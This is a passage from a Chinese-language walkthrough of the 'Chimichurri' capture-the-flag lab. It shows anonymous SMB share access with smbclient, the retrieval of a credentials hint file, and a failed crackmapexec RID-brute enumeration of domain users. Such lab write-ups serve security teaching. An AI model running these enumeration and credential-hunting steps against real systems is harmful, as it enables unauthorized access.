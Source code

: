 ```bash
        SYSVOL                                                  NO ACCESS       Recurso compartido del servidor de inicio de sesión

```

查看smb共享目录
```bash
┌──(root㉿kali)-[/home/kali/thl/Chimichurri]
└─# smbclient -U '' //chimichurri.thl/drogas
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jun 27 18:20:49 2024
  ..                                  D        0  Thu Jun 27 18:20:49 2024
  credenciales.txt                    A       95  Mon Jul  1 01:19:03 2024

                7735807 blocks of size 4096. 4368462 blocks available

smb: \> get credenciales.txt
getting file \credenciales.txt of size 95 as credenciales.txt (46.4 KiloBytes/sec) (average 46.4 KiloBytes/sec)
smb: \> exit

┌──(root㉿kali)-[/home/kali/thl/Chimichurri]
└─# smbclient -U '' //chimichurri.thl/IPC$
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> ls -a
NT_STATUS_NO_SUCH_FILE listing \-a
smb: \> exit

```

查看文件内容
```bash\
┌──(root㉿kali)-[/home/kali/thl/Chimichurri]
└─# cat credenciales.txt
Todo es mejor en con el usuario hacker, en su escritorio estan sus claves de acceso como perico     
```
> 这句西班牙语的意思是：  
“所有事情都会更好，因为有黑客用户，他的桌子上有他的访问密钥，就像鹦鹉一样。”
其中“como perico”是个比喻，可能意味着“很显眼”或“随意放置”，暗示这些密钥没有被妥善保护。

## 4. rid-brute获取域内用户
因为存在 `smb空会话` 所以我们可以进行 `rid-brute` 获取域内用户
> `rid-brute` 只需要有一个域内合法用户即可进行。

```bash
┌──(root㉿kali)-[/home/kali/thl/Chimichurri]
└─# crackmapexec smb chimichurri.thl -u 'guest ' -p ' ' --rid-brute

┌──(root㉿kali)-[/home/kali/thl/Chimichurri]
└─# crackmapexec smb chimichurri.thl -u 'guest ' -p ' ' --rid-brute
SMB         chimichurri.thl 445    CHIMICHURRI      [*] Windows 10 / Server 2016 Build 14393 x64 (name:CHIMICHURRI) (domain:chimichurri.thl) (signing:True) (SMBv1:False)
SMB         chimichurri.thl 445    CHIMICHURRI      [+] chimichurri.thl\guest :
SMB         chimichurri.thl 445    CHIMICHURRI      [-] Error creating DCERPC connection: SMB SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.

```
失败了。 这里对匿名用户的权限做了设置
